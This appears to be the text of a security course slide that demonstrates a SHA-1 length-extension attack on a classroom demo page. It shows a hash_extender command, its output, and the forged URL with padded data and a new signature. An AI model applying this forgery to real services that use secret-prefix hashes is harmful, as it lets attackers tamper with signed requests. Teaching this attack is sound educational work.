

# Demo Page
http://158.132.255.16:25005/comp444/demo.php?d=data&h=6f5a7284246a7693c5f37f19f26609af84f56431
Attacker knows the hash function is SHA-1() and the length of secret is 8. They try to append new data “attacking” to the end of the original data:
http://158.132.255.16:25005/comp444/demo.php?d=dataattacking&h=6f5a7284246a7693c5f37f19f26609af84f56431
See what happens?
./hash_extender -d data -a attacking -l 8 -s 6f5a7284246a7693c5f37f19f26609af84f56431 -f sha1 --out-data-format=html
	Type: sha1
	Secret length: 8
	New signature: a2feef179114b40605307e0ca260a3e72a56017c
	New string: 	data%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00	%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00	%00%00%00%00%00%00%00%00%00%00%00%00%60attacking
http://158.132.255.16:25005/comp444/demo.php?d=data%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%60attacking&h=a2feef179114b40605307e0ca260a3e72a56017c
See what happens?

14